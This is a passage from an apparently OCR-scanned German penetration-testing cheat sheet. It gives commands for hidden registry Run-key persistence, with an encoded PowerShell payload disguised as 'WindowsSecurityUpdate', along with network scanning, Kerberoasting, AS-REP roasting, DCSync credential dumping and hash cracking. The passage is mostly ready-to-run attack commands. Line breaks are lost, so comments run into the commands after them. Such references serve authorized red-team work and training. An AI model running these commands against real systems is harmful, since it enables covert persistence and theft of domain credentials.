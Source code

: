 ### 7.3 Registry-basierte Persistence

### Autorun-Registry-Keys

```powershell
# Run-Key für aktuellen BenutzerPS> Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsSecurityUpdate" -Value "powershell.exe -WindowStyle Hidden -exec bypass -enc <base64_payload>"# Run-Key für alle Benutzer (Administratorrechte erforderlich)PS> Set-ItemProperty -Path "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsSecurityUpdate" -Value "powershell.exe -WindowStyle Hidden -exec bypass -enc <base64_payload>"
```

---

## Tool-Referenz & Troubleshooting

### Wichtige Befehls-Übersicht

### Netzwerk-Reconnaissance

```bash
# Host Discoverynmap -sn 192.168.20.0/24
naabu -host 192.168.20.0/24 -silent# Port Scanningnmap -sS -sV -sC 192.168.20.0/24
naabu -list targets.txt -top-ports 1000
# Service Enumerationnmap --script smb-* 192.168.20.0/24
nmap --script ldap-* 192.168.20.10-12
```

### Active Directory

```bash
# KerberoastingGetUserSPNs.py domain/user:pass -dc-ip DC_IP -outputfile hashes.txt
# AS-REP RoastingGetNPUsers.py domain/ -dc-ip DC_IP -usersfile users.txt -outputfile asrep.txt
# DCSyncsecretsdump.py domain/user:pass@DC_IP
```

### Hash-Cracking

```bash
# John the Ripperjohn --wordlist=rockyou.txt hashes.txt
# Hashcathashcat -m 13100 hashes.txt rockyou.txt  # Kerberos TGShashcat -m 18200 hashes.txt rockyou.txt  # AS-REP
```

### Häufige Probleme & Lösungen

### “Clock skew too great” Fehler

```bash
# Zeitabweichung zwischen Attacker und DC korrigierensudo ntpdate -s 192.168.20.10
# Odersudo timedatectl set-ntp true
```

